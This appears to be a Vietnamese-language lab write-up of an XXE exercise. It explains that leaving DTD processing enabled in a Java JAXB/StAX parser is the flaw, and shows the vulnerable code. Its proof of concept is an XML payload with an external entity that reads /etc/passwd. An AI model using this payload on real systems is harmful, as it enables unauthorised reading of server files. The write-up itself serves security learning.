 ```java
}

```

# (A5) XXE

# XXE 4

## Nguyên nhân lỗi

- Lập trình viên không kiểm tra đầu vào của xml
- Không tắt tính năng Document Type Definition (DTD), khiến cho kẻ tấn công có thể injection vào XML bằng cách chèn DTD.

```java
// ...
protected Comment parseXml(String xml) throws XMLStreamException, JAXBException {
    var jc = JAXBContext.newInstance(Comment.class);
    var xif = XMLInputFactory.newInstance();

    if (webSession.isSecurityEnabled()) {
      xif.setProperty(XMLConstants.ACCESS_EXTERNAL_DTD, ""); // Compliant
      xif.setProperty(XMLConstants.ACCESS_EXTERNAL_SCHEMA, ""); // compliant
    }

    var xsr = xif.createXMLStreamReader(new StringReader(xml));

    var unmarshaller = jc.createUnmarshaller();
    return (Comment) unmarshaller.unmarshal(xsr);
  }
  // ...
```

## POC

- Bắt một request khi gửi Review

![image.png]((A5)%20XXE%2058277b7d0c6d4f15adfeb53b34cfb880/image.png)

- Thêm DTD vào phần xml của request để có thể đọc được file /etc/passwd

```xml
<?xml version="1.0"?>
<!DOCTYPE text [
  <!ENTITY payload SYSTEM "file:///etc/passwd">
]>
<comment>  
	<text>&payload;</text>
</comment>
```
